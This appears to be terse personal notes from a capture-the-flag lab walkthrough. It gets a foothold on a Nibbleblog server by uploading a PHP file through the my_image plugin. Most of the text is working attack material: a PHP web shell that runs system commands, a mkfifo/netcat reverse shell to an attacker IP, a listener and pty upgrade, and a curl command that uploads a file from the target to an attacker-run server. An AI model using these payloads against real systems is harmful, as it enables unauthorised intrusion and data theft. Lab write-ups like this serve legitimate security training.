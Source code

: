 ```error
**Warning**: imagesy() expects parameter 1 to be resource, boolean given in **/var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php** on line **27**  
  
**Warning**: imagecreatetruecolor(): Invalid image dimensions in **/var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php** on line **117**  
  
**Warning**: imagecopyresampled() expects parameter 1 to be resource, boolean given in **/var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php** on line **118**  
  
**Warning**: imagejpeg() expects parameter 1 to be resource, boolean given in **/var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php** on line **43**  
  
**Warning**: imagedestroy() expects parameter 1 to be resource, boolean given in **/var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php** on line **80**
```
open
```
http://10.129.200.170/nibbleblog/content/private/plugins/my_image/image.php
```
output
```php
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

```php
<?php system("pwd"); ?>
```
output:
```
/var/www/html/nibbleblog/content/private/plugins/my_image
```

foothold
```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.34 9443 >/tmp/f"); ?>
```

```sh
nc -lvnp 9443
```
upload > open > akan terkonek ke port 9443
### get bash with python
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
to download the file
in your terminal
```sh
httpsweet
```
in target termial
```bash
curl -X PUT -T "personal.zip" "http://10.10.14.247:8000/"
```
